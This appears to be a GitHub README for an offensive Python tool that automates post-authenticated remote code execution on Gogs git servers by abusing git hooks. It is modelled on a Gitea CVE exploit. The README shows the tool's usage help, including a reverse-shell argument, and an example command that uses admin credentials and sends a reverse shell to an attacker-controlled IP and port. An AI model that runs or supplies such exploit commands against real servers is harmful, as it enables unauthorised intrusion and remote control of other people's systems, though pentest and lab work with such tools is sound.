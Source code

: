 # Gogs Remote Code Execution
Tool to automate code execution on the server running Gogs git service.  
Inspired from: https://github.com/p0dalirius/CVE-2020-14144-GiTea-git-hooks-rce

![Alt text](./Gogs.png)

## POC

![Alt text](./example.svg)
<!--[![asciicast](https://asciinema.org/a/562896.svg)](https://asciinema.org/a/562896)-->

## How to use
```bash
./gogs.py -h
usage: gogs.py [-h] -s SERVER -u USERNAME -p PASSWORD -r REVSHELL [-t TLS]

Tool to automate code execution on the server running Gogs git service.
[#] Type: Post-Authenticated
[#] Privilege: Permission to create Git hooks (Admin Panel > Users > Edit Account)
[#] Tested: 0.12.9 

options:
  -h, --help            show this help message and exit
  -s SERVER, --server SERVER
                        Hostname/IP (port) (path)
  -u USERNAME, --username USERNAME
                        Username of the account
  -p PASSWORD, --password PASSWORD
                        Password of the account
  -r REVSHELL, --revshell REVSHELL
                        <ip>:<port>
  -t TLS, --tls TLS     true or false

```

## Example
```bash
/gogs.py -s 192.168.1.24:8000 -u admin -p 'Password1234' -t false -r 192.168.45.5:80
```
